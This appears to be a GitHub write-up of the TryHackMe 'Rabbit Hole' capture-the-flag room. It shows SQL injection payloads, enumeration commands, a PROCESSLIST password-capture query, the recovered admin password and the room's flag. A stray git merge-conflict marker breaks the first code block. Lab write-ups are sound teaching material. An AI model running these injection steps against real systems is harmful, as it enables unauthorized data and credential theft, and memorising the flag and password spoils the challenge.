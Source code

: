 # TryHackMe: Rabbit Hole Walkthrough — Full Exploit & Capture-the-Flag Guide

## 🔍 Challenge Overview

**Platform:** TryHackMe
**Room Name:** Rabbit Hole
**Category:** Web Exploitation, SQL Injection, Enumeration, Processlist Abuse
**Difficulty:** Intermediate

**Keywords for SEO:** tryhackme rabbit hole writeup, second-order sqli, processlist mysql exploit, ssh login sql injection, sql injection challenge solution, CTF walkthrough rabbit hole, information\_schema processlist attack, MySQL md5 password capture, ethical hacking SQLi lab

> This is a complete, step-by-step professional walkthrough to solve the "Rabbit Hole" room on TryHackMe. It includes command-line tools, Python automation scripts, payloads, and final shell access to capture the flag.

---

## 🛠 Step 1: Initial Reconnaissance

```bash
nmap -T4 -n -sC -sV -Pn -p- 10.10.173.12
<<<<<<< HEAD




=======
```

**Discovered Open Ports:**

```
22/tcp (SSH)
80/tcp (HTTP)
```

Visit:

```
http://10.10.173.12
```

Identified login/register form and "Last Logins" feature reflecting usernames (possible injection point).

---

## 🧪 Step 2: SQL Injection Detection

Test Payload:

```sql
' UNION SELECT 1;--
```

**Error Response:** Column mismatch confirms SQL injection is possible.

Working Payload:

```sql
' UNION SELECT 1,2;--
```

This confirms 2 columns are expected.

---

## 🧬 Step 3: Extract Database Names

```bash
python3 sqli_automate2.py 'http://10.10.173.12/' 'SELECT group_concat(schema_name) FROM information_schema.schemata'
```

**Result:**

```
information_schema,web
```

---

## 🗂 Step 4: Extract Table Names from `web`

```bash
python3 sqli_automate2.py 'http://10.10.173.12/' 'SELECT group_concat(table_name) FROM information_schema.tables WHERE table_schema="web"'
```

**Tables Found:**

```
users,logins
```

---

## 🧱 Step 5: Extract Columns from `users`

```bash
python3 sqli_automate2.py 'http://10.10.173.12/' 'SELECT group_concat(column_name) FROM information_schema.columns WHERE table_schema="web" AND table_name="users"'
```

**Columns:**

```
id,username,password,group
```

---

## 🔐 Step 6: Dump User Data

```bash
python3 sqli_automate2.py 'http://10.10.173.12/' 'SELECT group_concat(id,":",username,":",password,":",`group` SEPARATOR "\n") FROM web.users WHERE id<4'
```

**Dumped:**

```
1:admin:0e3ab8...:admin
2:foo:abc123:user
3:bar:iloveyou:user
```

---

## 👁️ Step 7: Monitor `PROCESSLIST` for Admin Password

Repeatedly run:

```bash
python3 processlist_extractor.py 'http://10.10.173.12/' 'SELECT INFO_BINARY FROM information_schema.PROCESSLIST WHERE INFO_BINARY NOT LIKE "%INFO_BINARY%" LIMIT 1'
```

**Target Output Example:**

```sql
SELECT * FROM users WHERE username='admin' AND password=md5('fEeFBqOXBOLmjpTt0B3LNpuwlr7mJxI9dR8kgTpbOQcLlvgmoCt35qogicf8ao0Q')
```

Extract the cleartext password inside the `md5()` function.

---

## 💻 Step 8: SSH Login as Admin

```bash
ssh admin@10.10.173.12
```

**Password:**

```
fEeFBqOXBOLmjpTt0B3LNpuwlr7mJxI9dR8kgTpbOQcLlvgmoCt35qogicf8ao0Q
```

---

## 🏁 Step 9: Capture the Flag

```bash
ls
cat flag.txt
```

**Flag:**

```
THM{this_is_the_way_step_inside_jNu8uJ9tvKfH1n48}
```

---

## 🧰 Tools & Techniques Used

* `nmap`, `curl`, `Burp Suite`
* Manual SQL injection testing
* `information_schema` enumeration
* MySQL `PROCESSLIST` query leakage
* Python scripting (`requests`, `bs4`)

---

## 📁 Included Scripts

### `sqli_automate2.py`

Automates 16-character chunked SQL data extraction using SUBSTR.

### `processlist_extractor.py`

Multi-threaded script to capture live SQL queries from MySQL `information_schema.processlist`.

---

## ✍️ Writeup by: Mohsin Arif

**GitHub:** [https://github.com/mhsn1](https://github.com/mhsn1)
**TryHackMe:** [https://tryhackme.com/p/mhsn1](https://tryhackme.com/p/mhsn1)

**Keywords:** tryhackme rabbit hole writeup, mysql processlist exploit, second-order sql injection, ethical hacking walkthrough, capture the flag sql injection, offensive enumeration tutorial
